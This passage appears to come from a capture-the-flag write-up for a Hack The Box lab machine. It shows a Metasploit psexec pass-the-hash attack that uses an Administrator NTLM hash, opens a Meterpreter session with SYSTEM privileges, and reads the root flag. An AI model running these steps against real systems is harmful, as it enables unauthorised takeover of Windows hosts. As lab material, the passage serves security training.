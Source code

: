 #### Using the Exploit 'exploit/windows/smb/psexec' and the Payload 'windows/meterpreter/bind_tcp'
```
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set SMBDomain htb.local
SMBDomain => htb.local
msf5 exploit(windows/smb/psexec) > set SMBUser Administrator
SMBUser => Administrator
msf5 exploit(windows/smb/psexec) > set LPORT 4464
LPORT => 4464
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf5 exploit(windows/smb/psexec) > set RPORT 445
RPORT => 445
msf5 exploit(windows/smb/psexec) > set DB_ALL_CREDS false
DB_ALL_CREDS => false
msf5 exploit(windows/smb/psexec) > set SMBPass aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
SMBPass => aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.161
RHOST => 10.10.10.161
msf5 exploit(windows/smb/psexec) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] 10.10.10.161:445 - Connecting to the server...
[*] 10.10.10.161:445 - Authenticating to 10.10.10.161:445|htb.local as user 'Administrator'...
[*] 10.10.10.161:445 - Selecting PowerShell target
[*] 10.10.10.161:445 - Executing the payload...
[+] 10.10.10.161:445 - Service start timed out, OK if running a command or non-service executable...
[*] Started bind TCP handler against 10.10.10.161:4464
[*] Sending stage (180291 bytes) to 10.10.10.161
[*] Meterpreter session 1 opened (10.10.14.40:19905 -> 10.10.10.161:4464) at 2020-01-09 23:41:31 -0500
```

Notice the System and User information provided by Meterpreter. After that, let's switch to a "shell" to interactive with the system through Command-Prompt.
```
msf5 > sessions 1
meterpreter > sysinfo
Computer        : FOREST
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

meterpreter > shell
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> cd c:\Users\Administrator\Desktop

c:\Users\Administrator\Desktop> type root.txt
f0481**********************129cc
```
***Game Over: System Rooted and ROOT Flag found!***
